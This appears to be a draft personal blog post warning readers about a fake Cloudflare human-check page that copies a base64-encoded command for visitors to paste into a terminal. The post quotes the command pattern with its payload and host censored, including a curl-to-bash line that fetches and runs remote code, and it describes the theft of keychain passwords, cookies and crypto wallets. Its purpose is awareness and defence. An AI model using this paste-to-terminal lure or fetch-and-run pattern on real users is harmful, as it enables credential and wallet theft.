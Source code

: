 <!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For This Malware
==========================
Spreading the word about a nasty new phishing scam

![](./images/image.png)

> 🚨 BLUF: there's a clever new malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer.
> 
> DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

Yesterday I followed a link on a Harvard Health article and was presented with this official-looking screen:

![](./images/malware.jpeg)

_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal??
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode step gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on the knowledge that if you copy-paste wrong, your computer will be enslaved to something straight out of Cthulhu's asshole.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I then reported both sites to Google Safe Browsing and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden :(

That the trail leads back to Asia has me guessing it's either Chinese or North Korean in origin.

North Korea's cyber warfare groups are [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Could this be a nod to North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that a single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
